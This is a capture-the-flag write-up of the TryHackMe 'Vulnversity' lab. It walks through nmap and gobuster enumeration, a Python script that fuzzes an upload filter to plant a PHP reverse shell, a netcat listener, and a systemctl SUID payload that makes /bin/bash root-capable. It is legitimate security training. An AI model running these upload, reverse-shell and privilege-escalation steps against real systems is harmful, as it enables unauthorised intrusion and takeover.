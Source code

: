 ```yaml
---
title: "TryHackMe - Vulnversity Writeup"
date: 2021-07-10
draft: false
tags: ["upload-vuln", "GTFOBins"]
thm: "TryHackMe"
linux: "Linux"
---
```


[Link : https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

## Enumeration

First we need to do reconnaissance by using nmap (Network Mapper) to find open ports and to understand the machine. I'm gonna run this command:

```
nmap -sC -sV -O -oN nmap/initial <machine ip>
```

### Explaining the nmap scan:
* -sC	:= scan using nmap default script
* -sV	:= scan for version
* -O 	:= scan for OS (operating system) 	
* -oN := output in normal format

Now our nmap scan is done. So, let's do bad thing _evil grin_ lol. Just joking okayy.

![2](2.png)

We can see this machine have 6 ports open. The result always screaming that lot of services running on ubuntu. We can see that this machine also have squid proxy and the version too. So, first maybe we can try ftp login as anonymous but unfortunately we cannot login ftp as anonymous.

This machine have http on port 3333 and running on apache web server. Let's take a look!

![3](3.png)

OH! what a lovely website. We know that they have a website and we can enumerate futher by using gobuster tool. Gobuster is a tool for searching hidden directory in the web. If you doesn't have gobuster. You.... yeah...youuu can visit this [github repos](https://github.com/OJ/gobuster).

Let's run gobuster using this command

```
gobuster dir -u http://10.10.111.81:3333/ -w /opt/directory-medium.txt --no-error
```

### Explaining gobuster flag:
* dir	  := using directory mode
* -u		:= specify url
* -w		:= specify wordlist
* --no-error := no error

![4](4.png)

So, here's the result. If you look super close but not at the monitor though jk. Gobuster found a hidden directory called /internal. Let's go to that hidden directory.

![5](5.png)

Apparently, that's directory leads us to this page a.k.a upload page. We can upload php reverse shell on that.

## Foothold/Gaining Access

But how to get php reverse shell and how to setup, even how to use it. (it's okay I got you ladies & gentlemen)

1. Go to this [site here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
2. Download it or you can copy it. If you copy it, make sure to save it in the file with php extensions. example := revshell.php
3. Open the file and change the ip address to yours tryhackme ip address, If you want to change the port. Just change it. The port in this case is going to be a listing port.

![6](6.png)<br>
_original_

![7](7.png)<br>
_alter with ip and port_

However, when we upload a php file to the page it's gonna response ‘extension not allowed’. Looking back at the questions ‘TASK 4’. Now we know that we can fuzz this upload page with different file extensions.

So, I gonna make python script for that. You can use burpsuite if you want to. Why I'm using python script??? because I want to learn duhhh and I'm not saying that I really good in python NO. TBH I wacthed a lot of tutorial for just simple task and I keep adding time in this box. man oh man. It's worth it tho. So here is my script

```python
#!/usr/bin/python3

import requests
import os

url = "http://10.10.111.81:3333/internal/"
action = "/index.php"

data = {
	'file':'/index.php',
	'submit':'Submit'
}

oldfile = "revshell.php"
file = "revshell"

extensions = ['.php','.php3','.php4','.php5','.phtml']

for ext in extensions:
	newfile = file + ext
	rename = os.rename(oldfile, newfile)
	
	file_to_upload = {'file': open(newfile, 'rb')}

	r = requests.post(url + action, data=data, files=file_to_upload)

	if "Extension not allowed" in r.text:
		print(f"This file not allowed : {newfile}")
	else:
		print(f"This file is allowed : {newfile}")

	oldfile = newfile
```

Let's run the script and finally yes. We got a hit boys. This page only accept .phtml extensions. COOL

![8](8.png)

Now we need to setup netcat listener to the port that we change in the our reverse shell. If you can see I'm listen to the port 6969, because I'm using this port in my reverse shell

```
nc -lnvp 6969
```
To activated our reverse shell go to this url http://10.10.111.81:3333/internal/uploads/ . But how you found the `/uploads` directory. Good questions. Just run gobuster against /internal directory. We found this.

![9](9.png)

To activated our shell just double click at our reverse shell file. Mine here name revshell.phtml but yours maybe different. I don't know because this is mine not yourssss!!!! joking of course. Please don't be offended. HAHAHAHAH jk.

Now we're in!!!!Now let's hunt the user flag. So, let's navigate ourselves to the home directory to list a user directory. WOW!!! now we know that bill the one who manage this webserver.

![10](10.png)

Let's go into bill's home directory to find user flag. Yes we got a user flag. To read this flag you need to use the `cat command`

![11](11.png)

## Privilege Escalation

How to be root. Now we can do a basic enumeration if you want. Anyways, the questions ask what the most stand out file in SUID file. To find this file called SUID we need run this command

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/
```

So, this command means find all SUID file that owns by root user. After find it, make it the file in the list using ls. If we got an errors please don't display the errors to us. 

![12](12.png)

We got all of this but how to find the one that most stand out. You can make your linux machine as the base line. Try run the same command in your box and try compare it.

In this case the file called `/bin/systemctl` the most stands out. So, we're gonna use systemctl to be root but how. Easy, just go to this site called [GTFObins](https://gtfobins.github.io/#) . Try search systemctl suid in it.

So, I don't know where is the flag are. What I'm gonna do, is to make file `/bin/bash` as `SUID`. Hmm, sound fun! With it we can be root or to be specific euid root

To use this command just take all and copy it in the box

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```
After you've done copy and paste that command. 
Run `/bin/bash -p` and now become root.

Just navigate through root directory and you found the flag

![13](13.png)

## Conclusion

I’ve learned a lot today. If you have an upload page on your website make sure you use the filter options. Filter out the bad file to make your site a bit safer. Also, you must configure your file permission very-very-very-very-very good. If you see, I become root with simple misconfigure file permission and that's it.

This room so much fun and I hope you guys have fun and learn something new today.